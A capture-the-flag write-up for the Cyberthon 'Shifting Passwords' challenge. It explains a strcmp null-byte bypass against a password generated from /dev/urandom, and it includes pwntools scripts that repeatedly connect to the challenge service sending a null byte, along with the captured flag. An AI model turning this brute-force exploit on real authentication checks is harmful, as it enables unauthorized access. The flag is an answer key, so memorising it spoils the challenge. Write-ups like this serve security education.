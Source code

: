 # Shifting Passwords
- 981 points

Description
---
Here it is, a secret APOCALYPSE data bank! We even found a binary that close resembles the password verification process.

The only problem is...the password's always changing, at least we think so.

Password cracking is hard, but what if the passwords are never the same...

Interact with the service using: \n
nc chals.cyberthon22f.ctf.sg 10201

Files: [shifting_passwords](./shifting_passwords)

Solution
---
This challenge makes use of bruteforcing `/dev/urandom` thanks to the null terminating string logic bug with strcmp.

The password cracking implies that there is some bruteforcing needed. 

Looking at the main function decompiled in IDA,

```c
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("Welcome APOCALYPSE! Enter the password here: ");
  fgets(s, 128, stdin);
  s2 = (char *)generate_random_password();
  if ( !strcmp(s, s2) )
  {
    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
      printf("Could not find flag.txt!");
      return 1;
    }
    fseek(stream, 0LL, 2);
    v6 = ftell(stream);
    fseek(stream, 0LL, 0);
    ptr = malloc(v6);
    fread(ptr, v6, 1uLL, stream);
    fclose(stream);
    printf("%s", (const char *)ptr);
  }
  else
  {
    puts("Wrong password!");
  }
  free(s2);
  return 0;
}
```

Despite the presence of `malloc()` and `free()`, this is not a heap challenge, and the heap is being correctly used.

Checking the `generate_random_password()` function,

```c
char *generate_random_password()
{
  char *s; // [rsp+0h] [rbp-10h]
  FILE *stream; // [rsp+8h] [rbp-8h]

  stream = fopen("/dev/urandom", "rb");
  s = (char *)malloc(0x80uLL);
  fgets(s, 128, stream);
  fclose(stream);
  return s;
}
```
A bit of googling shows that /dev/urandom is a special file used to generate random numbers.

A bit more googling for "/dev/urandom ctf" reveals that there is a small chance that /dev/urandom will return a first null byte. [https://ctftime.org/writeup/24905]

`strcmp()` makes use of null terminating strings to determine the end of a string. More explanation [here](https://github.com/absurdtiger/Sieberrsec-CTF-3.0/tree/main/Pwn/warmup).

So we can just bruteforce for the small chance a null byte is the first one in the string that returns from `/dev/urandom`.

```python
from pwn import *
context.log_level='debug'

for i in range(1000):
        p = connect("chals.cyberthon22f.ctf.sg",10201)
        p.sendlineafter("Welcome APOCALYPSE! Enter the password here:", b"\x00")
        print(p.recvall())
        p.close()
```
```
$ python3 exploit.py > a.log
$ cat a.log | grep Cyberthon
```
I cleaned up the script because I like wasting time
```python
from pwn import *
context.log_level='debug'

for i in range(1000):
        p = connect("chals.cyberthon22f.ctf.sg",10201)
        p.sendlineafter("Welcome APOCALYPSE! Enter the password here:", b"\x00")
        out = str(p.recvall())
        p.close()
        if out.find("Cyberthon") != -1:
                info.log(out)
                break
        else:
                continue
```

`Cyberthon{nu11_t3rm1n4t0r5}`

Remarks
---
- initially thought it was heap because malloc() and free() but it didn't mean anything and looked like it was properly used; I do wonder if it's possible to solve this challenge by exploiting the heap
